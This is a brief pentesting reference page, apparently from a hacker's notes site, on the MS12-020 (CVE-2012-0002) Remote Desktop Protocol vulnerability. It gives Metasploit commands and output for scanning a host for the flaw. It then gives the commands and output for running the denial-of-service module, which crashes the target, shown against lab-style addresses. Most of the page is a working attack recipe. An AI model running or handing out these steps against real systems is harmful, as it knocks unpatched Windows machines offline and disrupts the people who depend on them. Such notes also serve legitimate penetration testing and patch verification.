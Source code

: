 icon:fontawesome/solid/unlock-keyhole

# CVE-2012-0002

CVE-2012-0002 | MS12-020

- MS12-020
- CVE-2012-0002
- CVE-2012-0152

The MS12-020 exploit targets vulnerabilities in Microsoft's Remote Desktop Protocol, potentially allowing an attacker to execute remote code without authentication.

## Scanner

```bash
msf5 > use auxiliary/scanner/rdp/ms12_020_check
```

## Examples

```bash
msf5 > use auxiliary/scanner/rdp/ms12_020_check
msf5 auxiliary(scanner/rdp/ms12_020_check) > set rhosts 10.10.10.16
msf5 auxiliary(scanner/rdp/ms12_020_check) > run

[+] 10.10.10.16:3389      - 10.10.10.16:3389 - The target is vulnerable.
[*] 10.10.10.16:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

##### Exploit DoS

Will bluescreen the target

```bash
msf5 > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set rhosts 10.10.10.15
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > run
[*] Running module against 10.10.10.15

[*] 10.10.10.15:3389 - 10.10.10.15:3389 - Sending MS12-020 Microsoft Remote Desktop Use-After-Free DoS
[*] 10.10.10.15:3389 - 10.10.10.15:3389 - 210 bytes sent
[*] 10.10.10.15:3389 - 10.10.10.15:3389 - Checking RDP status...
[+] 10.10.10.15:3389 - 10.10.10.15:3389 seems down
[*] Auxiliary module execution completed
```

## References

- [Docs.microsoft.com - ms12-020](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2012/ms12-020)
